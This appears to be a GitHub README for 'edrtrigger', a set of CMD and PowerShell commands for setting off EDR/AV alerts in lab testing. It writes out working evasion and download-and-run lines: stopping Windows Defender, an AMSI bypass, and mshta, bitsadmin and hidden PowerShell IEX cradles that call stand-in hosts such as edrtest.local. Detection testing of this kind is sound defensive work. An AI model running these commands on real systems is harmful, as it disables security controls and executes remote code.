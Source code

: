 # edrtrigger

# EDR Trigger (Non-Malicious Testing)

> [!WARNING]
>
> This set of commands is intended for **non-malicious testing** in a **controlled lab environment only**. These actions may trigger EDR/AV alerts or detections. Although all these are non-malicious and use non-routable TLDs (e.g., `.local`), they should only be executed in production environments if permitted by **compliance policies or explicit exceptions**. Proceed at your own risk.

## CMD

1. **Tasklist Enumeration**  
```cmd
cmd.exe /c tasklist
```

2. **Disabling Windows Defender**  
```cmd
cmd.exe /c sc stop WinDefend
```

3. **Certutil Download**  
```cmd
cmd.exe /c certutil.exe -urlcache -split -f http://7-zip.org/a/7z2405-x64.exe 7zip_installer.exe
```

4. **LOLBAS: Rundll32 (JavaScript Execution)**  
```cmd
cmd.exe /c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write('Hello');"
```

5. **Whoami (Enumeration)**  
```cmd
cmd.exe /c whoami > %TEMP%\whoami.txt
```

6. **MSHTA Launching Remote Script**  
```cmd
cmd.exe /c mshta.exe http://edrtest.local/evil.hta
```

7. **BITSAdmin Downloading Payload**  
```cmd
cmd.exe /c bitsadmin /transfer myjob /download /priority high http://edrtest.local/file.exe C:\Users\Public\file.exe
```

## Powershell

1. **Encoded PowerShell**  
```powershell
powershell -EncodedCommand CgpoZWxsbyBlZHI=
```

2. **PowerShell Abuse**  
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://edrtest.local/ps_script.ps1')"
```

3. **AMSI Bypass**  
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

4. **Malicious Macro Trigger**  
```powershell
Shell("powershell -w hidden -nop -c iex(iwr http://edrtest.local/ps_script.ps1)")
```

5. **COM Abuse (Excel COM Object Execution)**  
```powershell
$xls = New-Object -ComObject Excel.Application; $xls.Visible = $false; $xls.Quit()
```
